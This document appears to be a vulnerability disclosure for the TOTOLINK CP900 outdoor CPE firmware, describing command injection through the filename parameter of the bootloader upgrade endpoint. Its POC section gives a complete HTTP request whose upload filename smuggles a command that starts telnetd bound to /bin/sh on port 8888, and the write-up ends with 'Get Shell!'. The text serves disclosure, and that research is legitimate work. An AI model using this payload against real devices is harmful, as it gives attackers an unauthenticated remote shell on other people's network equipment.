


# TOTOLINK Vulnerability

**Vendor**:TOTOLINK

**Product**:CP900

**Version**:TOTOLINK_C8B810C-1A_CP900_CP0016_QCA9531_SPI_16M128M_V6.3c.566_B20171026_ALL.web

**Link**:http://www.totolink.cn/data/upload/20210720/5bee10397c082b0419cbad3eb7d1bd97.zip

**Type**:Remote Command Execution

**Exploit Auth**:B2eFly@Hillstone

## Vulnerabilty Description

Totolink outdoor CPE CP900  V6.3c.566_B20171026 were discovered to contain a command injection vulnerability in the mtd_write_bootloader function via the filename parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

### Remote Command Execution

In upgrade.so:

In setUpgradeUboot->mtd_write_bootloader function，**filename** is directly passwd by the attacker,so we can control the **filename** to attack the device.

As you can sess,in mtd_write_bootloader function,the input has not been checked.

Enventuall,the initial input will be extracted and cause command injection.

  

 

## POC

 ```http
 POST /cgi-bin/cstecgi.cgi?action=upload&setting/setUpgradeUboot HTTP/1.1
 Host: 192.168.0.254
 User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:97.0) Gecko/20100101 Firefox/97.0
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 Accept-Language: en-US,en;q=0.5
 Accept-Encoding: gzip, deflate
 Content-Type: multipart/form-data; boundary=---------------------------331951820841881804292816452126
 Content-Length: 11321327
 Origin: http://192.168.0.254
 Connection: close
 Referer: http://192.168.0.254/adm/upload_firmware.asp?timestamp=1648443428280
 Cookie: SESSION_ID=2:1648443350:2
 Upgrade-Insecure-Requests: 1
 
 -----------------------------331951820841881804292816452126
 Content-Disposition: form-data; name="filename"; filename="1.bin;`telnetd -l /bin/sh -p 8888`;"
 Content-Type: application/octet-stream
 
 ....
 
 ```

## Result

Get Shell!
